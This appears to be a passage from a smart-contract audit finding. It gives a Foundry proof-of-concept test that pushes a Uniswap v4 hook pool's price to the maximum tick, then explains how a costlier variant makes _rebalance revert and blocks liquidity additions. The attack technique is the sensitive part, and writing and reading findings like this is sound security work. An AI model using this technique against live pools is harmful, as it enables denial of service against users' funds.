 ```solidity
function test_DoSMaximumTick() public {
    uint160 sqrtMaxTickUniswap = TickMath.getSqrtPriceAtTick(887271);

    manager.initialize(key, SQRT_PRICE_1_1);

    IPoolManager.SwapParams memory params;
    HookEnabledSwapRouter.TestSettings memory settings;

    params =
        IPoolManager.SwapParams({ zeroForOne: false, amountSpecified: type(int256).min, sqrtPriceLimitX96: sqrtMaxTickUniswap });
    settings =
        HookEnabledSwapRouter.TestSettings({ takeClaims: false, settleUsingBurn: false });

    router.swap(key, params, settings, ZERO_BYTES);

    (uint160 poolPrice,,,) = manager.getSlot0(key.toId());
    assertEq(poolPrice, sqrtMaxTickUniswap);
}
```

Note that it is required to comment out the following line of code within `HookEnabledSwapRouter` for the test to run:

```solidity
function unlockCallback(bytes calldata rawData) external returns (bytes memory) {
    ...
    // Make sure youve added liquidity to the test pool!
    // @audit disabled this for testing purposes
    // if (BalanceDelta.unwrap(delta) == 0) revert NoSwapOccurred();
    ...
}
```
This is simply a helper function designed to execute swaps in the tests while preventing those of 0 delta.

Note that despite the above test, it is also possible to move the price outside of the liquidity range even when there is liquidity in the pool. The attack is more costly but has greater impact, since it will not only affect the liquidity computation for subsequent additions as demonstrated above but also will DoS the addition of liquidity because the `_rebalance()` function will revert:

```solidity
function _rebalance(PoolKey memory key) public {
    PoolId poolId = key.toId();
    // Remove all the liquidity from the Pool
    (BalanceDelta balanceDelta,) = poolManager.modifyLiquidity(
        key,
        IPoolManager.ModifyLiquidityParams({
            tickLower: MIN_TICK,
            tickUpper: MAX_TICK,
            liquidityDelta: -(poolManager.getLiquidity(poolId).toInt256()),
            salt: 0
        }),
        ZERO_BYTES
    );

    // Calculate the new sqrtPriceX96
    uint160 newSqrtPriceX96 = (
        FixedPointMathLib.sqrt(
            FullMath.mulDiv(uint128(balanceDelta.amount1()), FixedPoint96.Q96, uint128(balanceDelta.amount0()))
        ) * FixedPointMathLib.sqrt(FixedPoint96.Q96)
    ).toUint160();
    ...
}
```